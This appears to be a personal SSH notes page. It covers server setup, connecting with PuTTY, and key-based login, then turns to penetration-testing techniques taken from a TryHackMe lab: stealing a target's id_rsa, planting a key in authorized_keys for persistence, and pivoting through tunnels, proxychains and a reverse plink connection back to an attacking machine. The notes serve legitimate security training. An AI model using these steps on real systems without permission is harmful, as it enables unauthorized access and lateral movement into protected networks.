



# SSH Secured Shell Connection

## Table of contents

- [Installing the SSH Server](#installing-the-ssh-server)
- [Configuring the SSH Server](#configuring-the-ssh-server)
- [Connecting to an SSH Server](#connecting-to-an-ssh-server)
  - [Connecting from a GNU / Linux computer](#connecting-from-a-gnu--linux-computer)
  - [Connecting from a Microsoft Windows](#connecting-from-a-microsoft-windows)
- [Remote passwordless connection but with SSH keys](#remote-passwordless-connection-but-with-ssh-keys)
  - [Generating SSH Keys on GNU / Linux](#generating-ssh-keys-on-gnu--linux)
  - [Generating SSH Keys on Windows](#generating-ssh-keys-on-windows)
- [Forward Connections](#forward-connections)

## Installing the SSH Server

Installing the `ssh` server is very easy.

````commandline
apt-get install openssh-server
````

## Configuring the SSH Server

The default configuration is stored in the file `/etc/ssh/sshd_config`. However, this file could be overwritten when the package is updated on the system by the package manager. That configuration file also look up to every configuration file that is stored in  `/etc/ssh/sshd_config.d/`. So we will create our custom file `/etc/ssh/sshd_config.d/custom_config.conf` with our custom configuration options.

````editorconfig
#################################################
### This is my custom sshd configuration file ###
#################################################

# Allow remote root login
PermitRootLogin prohibit-password

# Print the traditional Motd
PrintMotd yes
````

After having fine-tuned with our own configuration option, we should restart the sshd server.

````commandline
systemctl restart sshd
````

## Connecting to an SSH Server

To connect to an `ssh` server it's very easy, but it's also `Operating System` specific.

### Connecting from a GNU / Linux computer

It's very easy to connect from a `GNU / Linux` computer to another remote `GNU / Linux` computer. For this we will use the terminal.

````commandline
ssh <username>@<ip_or_name_of_the_host>
````

If you do not specify a username, then a username will be requested.

If it's the first time you connect to that computer, you will get informed and will be asked if you want to save the certification file.

You can also use `scp` to copy files to a remote computer.

There are also graphical tools available to make it more easy.

### Connecting from a Microsoft Windows

On a `Microsoft Windows` computer, usually we use the tool `Putty` to connect. You can download the `putty` tools for free from the [putty website](https://putty.org/).

If you have [CYGWIN](../../Windows/installing-and-using-cygwin-on-microsoft-windows-xp.md) available on your `Microsoft Windows`, and want to use that, then the procedure is the same as on a `GNU / Linux` computer. Here we will talk about the `putty` app.



In the previous screenshot we can see that we need to fill in the `ip` or the `host name`. And that we can save the session. You see that I have already many session saved. You can also specify a username in the input field where you need to put the host name or ip, so it will be then for example: `<username>@<host-name-or-ip>`. If you plan to connect often to the same remote computer, then I suggest you save the session, so that it's faster to connect next time.

You can also change a lot of setting on the left side of the screen, in the category section. But normally everything should be fine as default and things should be fine-tuned in very specific situations only.

## Remote passwordless connection but with SSH keys

We can make a remote ssh connection without the need of entering a password. For this we need to generate `private key` and `public key`. The `private key` should stay on the computer where the keys are generated, and it should be kept secret and only readable by that user. The `public key` is what we need to share with the computer to whom we want to connect to.

### Generating SSH Keys on GNU / Linux

`id_rsa` file that contains a private key that can be used to connect to a box via `ssh`. It is usually located in the `.ssh` folder in the user's home folder. (Full path: `/home/USER/.ssh/id_rsa`). Get that file on your system and give it read/write-only permissions for your user, (`chmod 600 id_rsa`) and connect from the host machine by executing `ssh -i id_rsa USER@IP`.

In case if the target box does not have a generated `id_rsa` file (or you simply don't have reading permissions for it), you can still gain stable `ssh` access. All you need to do is generate your own `id_rsa` key on your system and include an associated key into `authorized_keys` file on the target machine.

Execute `ssh-keygen` and you should see `id_rsa` and `id_rsa.pub` files appear in your own `.ssh` folder. Copy the content of the `id_rsa.pub` file and put it inside the `authorized_keys` file on the target machine (located in `.ssh` folder). If the `authorized_keys` does not exist on the target machine, create it and `chmod 600 authorized_keys`. After that, connect to the machine using your `id_rsa` file with `ssh -i id_rsa USER@IP` and you won't be asked for a password. Note that this way you leave a trace of yourself.

NOTE: If the target machine does not have `ssh` config files at all. Just make them like previously mentioned.

NOTE: The ssh server also needs to allow this all.

````commandline
ssh-keygen -b 4096 
````

https://www.youtube.com/watch?v=ZhMw53Ud2tY

### Generating SSH Keys on Windows

On `Windows` you can also remotely log in to an `ssh` server with `ssh keys` so that you do not need to enter a password. For this you can use [Putty](https://putty.org/) or [CYGWIN](../../Windows/installing-and-using-cygwin-on-microsoft-windows-xp.md). If your have [CYGWIN](../../Windows/installing-and-using-cygwin-on-microsoft-windows-xp.md) installed and the `openssh` packages installed, then it's the same procedure as on `GNU / Linux` computer. Here we will discuss the method with the `Putty` tools.

With the `Putty Key Generator` app which is included with the Putty tools, we can generate public and private SSH keys. These keys we can use to connect `ssh GNU / Linux server`.

Execute the `puttygen.exe` in the command line. In the GUI that load, in the section parameters select the option `ed25519` to specify the type of key to generate. Then press the button `Generate`. During the generation you need to move your mouse cursor at the same time.



Once you pressed the `Generate` button, you will see that the word `No key` will be replaced with a bunch of generated letters and a few input fields will show up. Now we can save the `public key` and the `private key` by pressing theirs corresponding buttons. On `Windows` it does not matter where your save these keys. I created a directory called ssh in `My Documents` and stored it there. Make sure nobody has access to the `private key` and do not share this files with anyone.

Some part of the content of the `public key` should be added to the `~/.ssh/authorized_keys` on your `GNU / Linux` computer.

This is an example with fake data of a public key generated on Windows:

````text
---- BEGIN SSH2 PUBLIC KEY ----
Comment: "ed25519-key-20260910"
AOZJKSGNzaC1ZboRNNTE5AADKPSDbsr9K52cHpQqe9ZettPcwTJ+WALDwyOvMVOYl73XN
V1gk
---- END SSH2 PUBLIC KEY ----
````

From that previous information, we should make it like this and add it to `~/.ssh/authorized_keys` on hour `GNU / Linux` computer:

````text
ssh-ed25519 AOZJKSGNzaC1ZboRNNTE5AADKPSDbsr9K52cHpQqe9ZettPcwTJ+WALDwyOvMVOYl73XNV1gk
````

Now, in `Putty`, we need to tell it to use our private key when connecting to that ssh computer. For this we need to go in the `Putty Configuration` > `Connection` > `SSH` > `Auth` and there press the Browse button to select the `Private key file for authorisation`.



## Forward Connections

Source: <https://tryhackme.com/room/wreath>

Creating a forward (or "local") `SSH` tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. `Linux` servers, in particular, commonly have `SSH` active and open. That said, `Microsoft` (relatively) recently brought out their own implementation of the `OpenSSH` server, native to `Windows`, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward `SSH` tunnel using the `SSH` client -- `port forwarding`, and creating a proxy.

### Port forwarding

Port forwarding is accomplished with the `-L` switch, which creates a link to a Local port. For example, if we had `SSH` access to `172.16.0.5` and there's a webserver running on `172.16.0.10`, we could use this command to create a link to the server on `172.16.0.10`: 

````commandline
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```` 

We could then access the website on `172.16.0.10 `(through `172.16.0.5`) by navigating to port `8000` on our own attacking machine. For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port `80` on the target server, and port `8000` on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use sudo to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.

### Proxies

- `Proxies` are made using the `-D` switch, for example: `-D 1337`. This will open up port `1337` on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as `proxychains`. An example of this command would be:

````commandline
ssh -D 1337 user@172.16.0.5 -fN
````

This again uses the `-fN` switches to background the shell. The choice of port `1337` is completely arbitrary -- all that matters is that the port is available and correctly set up in your `proxychains` (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

## plink

`Plink.exe` is a `Windows` command line version of the `PuTTY SSH client`. Now that `Windows` comes with its own inbuilt `SSH` client, `plink` is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

Generally speaking, `Windows` servers are unlikely to have an `SSH` server running so our use of `Plink` tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:

````commandline
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
````

Notice that this syntax is nearly identical to previously when using the standard `OpenSSH` client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with `Windows` shells being difficult to stabilise), in order to get around the warning message that the target has not connected to this host before.

To use our example from before, if we have access to `172.16.0.5` and would like to forward a connection to `172.16.0.10:80` back to port `8000` our own attacking machine (`172.16.0.20`), we could use this command:

````commandline
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
````

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on `Kali` using `sudo apt install putty-tools.` After downloading the tool, conversion can be done with: 

````commandline
puttygen KEYFILE -o OUTPUT_KEY.ppk
````

Substituting in a valid file for the keyfile, and adding in the output file.

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).

Note: `Plink` is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up-to-date version of the `.exe` file. Whilst there is a copy pre-installed on `Kali` at `/usr/share/windows-resources/binaries/plink.exe`, [downloading a new copy from here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible.
